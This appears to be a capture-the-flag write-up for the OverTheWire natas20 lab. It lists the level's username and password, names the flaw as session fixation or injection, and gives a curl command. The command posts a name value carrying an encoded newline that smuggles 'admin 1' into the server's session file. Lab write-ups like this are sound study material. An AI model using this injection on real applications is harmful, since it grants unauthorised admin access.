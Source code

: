 # Username
natas20
# Password
p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw
# Web vulnerability
Session fixation, session injection
# Method of solve
We need to inject a new value into the session file.
```
curl -X POST -u 'natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw' -v 'http://natas20.natas.labs.overthewire.org/?debug=1' -b 'PHPSESSID=413e96uk941o14rn1jb52ak29m' -d 'name=test%0Aadmin%201'
```
